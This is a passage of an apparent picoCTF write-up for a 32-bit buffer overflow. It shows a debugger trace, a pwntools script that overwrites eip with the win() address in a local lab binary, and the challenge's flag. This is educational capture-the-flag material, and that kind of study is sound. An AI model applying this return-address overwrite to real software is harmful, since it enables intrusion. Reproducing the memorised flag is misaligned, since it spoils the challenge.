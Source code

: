 ```
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049300 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

Now that we have th information we needed, we can create our script that exploit the vulnerability in the source code. we will be using `pwn` tools for that : 

 - First, get the byte version of the address found of the `win()` function :

```python
# Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
# Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
```

 - After that, using connection tools, send the character sequence generated followed by the address we want to overwrite the `eip` pointer with. We can create a python script for that : 

```python
#! /usr/bin/python3

from pwn import *

p = process('./vuln')

p.sendlineafter(b'Please enter your string: \n', b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa\xf6\x91\x04\x08')
p.interactive()
```

After executing that code, first, the pointers will be overwrited of the `vuln` program but we will find that the `eip` pointer will be overwrittend with our specific address, this will make him jump to the `win()` instead of returning to the main function, and after execution prints out the flag.

**Note :** in order to run `vuln` binary, add execution permissions to it.

## Flag

flag : picoCTF{addr3ss3s_ar3_3asy_c76b273b}

## More information :

https://0xrick.github.io/binary-exploitation/bof3/?fbclid=IwAR2Mppoig0o57gQUBm1YQIGH44tBtqWeRB3Jr56RrAFlTzq96qFj5WR_vp8
https://courses.cs.washington.edu/courses/cse374/18sp/lectures/20-buffer-overflows.html?fbclid=IwAR04qbKpLA2emy0_RunFvULwi2qXYSR8-9WtdsawX-bvM5DNWi4l187gOwA